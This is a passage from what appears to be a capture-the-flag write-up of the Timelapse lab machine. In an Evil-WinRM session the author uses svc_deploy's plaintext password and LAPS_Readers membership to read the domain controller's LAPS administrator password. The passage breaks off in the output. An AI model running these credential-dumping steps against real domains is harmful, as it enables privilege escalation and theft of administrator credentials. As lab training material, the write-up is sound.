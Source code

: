 I used it as it was checking `svc_deploy` privileges. The account was part of the `LAPS_Readers` group.

    :::text
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    *Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /all}

    USER INFORMATION
    ----------------

    User Name            SID
    ==================== ============================================
    timelapse\svc_deploy S-1-5-21-671920749-559770252-3318990721-3103


    GROUP INFORMATION
    -----------------

    Group Name                                  Type             SID                                          Attributes
    =========================================== ================ ============================================ ==================================================
    Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
    TIMELAPSE\LAPS_Readers                      Group            S-1-5-21-671920749-559770252-3318990721-2601 Mandatory group, Enabled by default, Enabled group
    Authentication authority asserted identity  Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

I used a simple [commande](https://smarthomepursuits.com/export-laps-passwords-powershell/) to retrieve the LAPS password.

    ::text
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    *Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
    PSComputerName              : localhost
    RunspaceId                  : e7ea358f-6d9c-47d5-b26a-2505848b8b58
    DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
    DNSHostName                 : dc01.timelapse.htb
    Enabled                     : True
    ms-Mcs-AdmPwd               : 3S5cxvMIgY{D9a2eP%l4}QOs